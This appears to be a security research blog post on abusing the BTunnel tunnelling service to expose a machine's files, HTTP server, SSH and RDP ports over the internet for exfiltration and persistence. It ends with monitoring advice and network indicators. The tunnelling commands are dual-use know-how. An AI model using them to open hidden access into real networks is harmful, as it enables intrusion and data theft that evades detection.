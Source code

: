 ```yaml
---
title: "Utilizing BTunnel For Data Exfiltration"
classes: wide
header:
  teaser:  /assets/images/btunnelTeaser.png
ribbon: red
description: "Utilizing BTunnel to create tunnels without detections in order to exfiltrate data and to have persistence across the network over the internet."
categories:
  - Research
tags:
  - Research
toc: true
---
```


# Initials

I have been working on `DevTunnels`, `CloudFlared` and they have always amazed me based on their usage i.e. providing ease to developers to expose their local codebases/applications over the internet and possibly by IT Team for troubleshooting and support. However, i always knew that threat actors are not taking a u-turn from LOLBins, Living Off Other Binaries etc. But, today it has happened in a research article covered by `Unit 42` where they uncovered a threat actor targeting `Asia` and utilizing developers systems i.e. installed `Visual Studio Code` devtunnels for data exfiltrations. 

Reference: https://unit42.paloaltonetworks.com/stately-taurus-abuses-vscode-southeast-asian-espionage/

As organizations in most of the cases are not that much taking a look into the developers tools but threat actors have always been and have been trying to get into the system and findings simple ways to exfiltrate the data outside of the organizations. These tools have proven to be worth it for threat actors. 

These tools are very simple to use yet very effective and kind of dificult to find whether any data exfiltration activity is happening as the tunnels created and hosted are on official website i.e. Microsoft, CloudFlare which are normally whitelisted everywhere. 

While doing more research and finding out other possible solutions which work in the same way, one organization from `India` had my eyes on i.e. `BTunnels`. This works completely in similar fashion where the difference is that the `Authentication` of the session is based on `API KEY`. As well as very simple to configure `Username` and `Password` for authentication. But what will happen if API KEYs of someone else is exposed and is used by threat actors to exfiltrate the data? That still remains the question on how important it is to keep the API keys safe and secure. 

# BTunnels

It is fairly simple to use this tool as its a pre-compiled binary and is not required to be installed on the local system. Simple,y by hopping onto the downdloads sections we can download our required binary for `Mac, Windows & Linux`. For the sake of this article, i will be using `Linux` binary. 

![](/assets/bTunnel/2.png)

After this, simply create an account, hop over to `Dashboard` and grab your `API KEY`. 

![](/assets/bTunnel/1.png)

Finally, running the command to see what capabilities we have. As of writing this article, we have the following options. 

1. Domain
2. File
3. Http
4. TCP 

Well, as its very clear and all 4 can be abused/illegimiate use of the functionality for data exfiltration. 

![](/assets/bTunnel/3.png)

Lets take a look few of these. 

## 1. File

The command for this is going to be as below. 

```
./btunnel file --key <API-KEY>
```

Once we execute the command, we are provided with the `Tunnel Link` to access the the local file system over the internet directly. 

![](/assets/bTunnel/4.png)

Using the tunnel link as i am not subscribed yet, we are provided with the warning. 

![](/assets/bTunnel/5.png)

After clicking `Go To Site`, we can easily access the local file system over the internet. 

![](/assets/bTunnel/6.png)

Now, this is one usecase where we can easily expose the local file system over the internet.

## 2. Http

In order to forward the local port over the internet, we can use the following command where port number can vary. 

```
./btunnel http -p 8000 --key <API-KEY>
```
We can clearly see in the below screenshot that our local port is being forwarded to Btunnels. So, we have to make sure that a server/service is running on localhost.

![](/assets/bTunnel/7.png)

I have created a simple file and started a `Python Server` on the localhost hosting one `sample.html` file. 

![](/assets/bTunnel/8.png)

Using the same link provided to us, we can access the file over the `Tunnel`. 

![](/assets/bTunnel/9.png)

## 3. TCP

This is one of the crazy parts where it does not looks malicious but what can happen here is? 

We can redirect the network traffic and create backdoors and also port forward the RDP/SSH/FTP etc. connection over the internet and connect back to them using the `BTunnels`. 

While testing this part, i received an error of not being a pro user but the command is so simple. 

```
./btunnel tcp -p 22 --key <API-KEY>
```

Similarly, we can forward the RDP by running the following command. 

```
./btunnel tcp -p 3389 --key <API-KEY>
```

and we can keep on going and can forward many other forts as required.

## 4. Domain

This command allows to persist the domains/subdomains created for the BTunnel for the current user. More information can be found on this at the below link. 

https://www.btunnel.in/docs/commands/btunnel_domain

# Conclusion

As simple as these tools are and the level of ease they bring for the developers (technical/non-technical). This can fairly be used by the threat actors to exfiltrate the data and not just that but also for C2 communications as well as Phishing/Spear Phishing. As most of these tools are not malicious by default/behavior wise, these can easily be brought onto the compromised machines, where when executed, the created tunnel can be used for malicious purposes. 

It is equally important to keep an eye on these kind of ttols and to ensure these are blocked by default by having `Application Whitelisting` policies or else at-least the `Tunnels` links are monitored. 

This only has 1 `Network IOC` and i.e. as below. 

- https://*.btunnel.co.in

However, its recommended to add the following into monitoring as well. 

- https://*.btunnel.in

Including the main domaind and subdomains. 

# Additional

One more thing which i have noticed is that anyone can create an account on the website without the need to email verification or 2FA/MFA neither the accounts are verified. Thus, opening it for a great opportunity for the threat actors to use the registration for bulk registrations and taking out bulk APIs which can be used for malicious purposes. 

Also, one thing to note here is, this tool can not only be used to exfiltrate the data but also as a way in i.e. Phishing Campaigns as well as hosting binaries/tools/malwares and downloading them onto the compromised machines while the information of where it is connecting from remains within the orgnizations. Thus, giving away very less information of who the threat actor really is. 
